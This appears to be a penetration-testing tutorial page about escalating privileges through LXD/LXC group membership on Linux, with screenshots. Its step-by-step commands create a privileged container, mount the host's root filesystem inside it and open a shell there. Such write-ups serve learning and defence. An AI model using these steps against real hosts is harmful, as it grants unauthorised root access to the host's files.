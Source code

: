 ```yaml
---
legal-banner: true
---
```


### **Introduction**

LXD (Linux Containers Daemon) is a next-generation system container manager, designed to manage Linux containers in a more powerful and flexible way than traditional container technologies like Docker. It provides a user-friendly interface for managing containers and virtual machines, offering capabilities that make it suitable for both development and production environments.

### **Common Scenarios**

1.  Host Path Mounting: Gaining access to the host filesystem from within a container.
2.  Image Import with Elevated Privileges: Using custom container images configured to grant higher privileges.
3.  Misconfigured Container Permissions: Exploiting containers that are started with elevated permissions or insecure settings.

### **Exploiting LXC/LXD Step-by-Step**

1.  Check Group Membership, Ensure you are in the `lxd` group.  
    `id`  

    ![](../../../img/Linux-Environment/102.png)
    
2.  We have to run lxd first and follow the prompts as seen below  
    `lxd init`  

    ![](../../../img/Linux-Environment/103.png)
    
3.  Check for the release version, in this scenario I have 18.04  
    `lsb_release -a`  

    ![](../../../img/Linux-Environment/104.png)
    
4.  Create the instance & mount it  
    `lxc init ubuntu:18.04 test -c security.privileged=true`  
    
    ![](../../../img/Linux-Environment/105.png)

    `lxc config device add test whatever disk source=/ path=/mnt/root recursive=true`  
    
    ![](../../../img/Linux-Environment/106.png)
    
5.  Start the instance, and check its running state  
    `lxc start test`  
    `lxc info test`  
    
    ![](../../../img/Linux-Environment/107.png)
    
6.  Now execute bash within the instance  
    `lxc exec test bash`  
    
    ![](../../../img/Linux-Environment/108.png)
    
7.  Access the mounted partition /mnt/root  
    `cd /mnt/root`  
    
    ![](../../../img/Linux-Environment/109.png)